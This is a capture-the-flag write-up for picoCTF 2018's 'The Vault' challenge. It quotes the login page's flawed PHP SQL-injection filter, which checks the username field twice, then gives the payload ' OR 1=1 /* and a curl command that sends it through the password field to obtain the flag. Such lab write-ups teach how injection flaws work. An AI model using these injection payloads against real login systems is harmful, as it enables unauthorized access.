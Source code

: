 # The Vault
There is a website running at [http://2018shell.picoctf.com:22430](http://2018shell.picoctf.com:22430). Try to see if you can login!


## Solution
The login source code is located at [http://2018shell.picoctf.com:22430/login.txt](http://2018shell.picoctf.com:22430/login.txt). In this file you'll notice that the writer is doing SQL injection checks:

```
//validation check
$pattern ="/.*['\"].*OR.*/i";
$user_match = preg_match($pattern, $username);
$password_match = preg_match($pattern, $username);
if($user_match + $password_match > 0)  {
	echo "<h1>SQLi detected.</h1>";
}
```

However notice the error in the 4th line. The developer copied and pasted the line above and forgot to change `$username` to `$password`. Thus, we could still perform a SQL injection through the password field using `' OR 1=1 /*`.

### Exploit
The exploit is `curl --silent -XPOST http://2018shell.picoctf.com:22430/login.php -F password="' OR 1=1 /*" | grep -o "picoCTF{.*}"`.
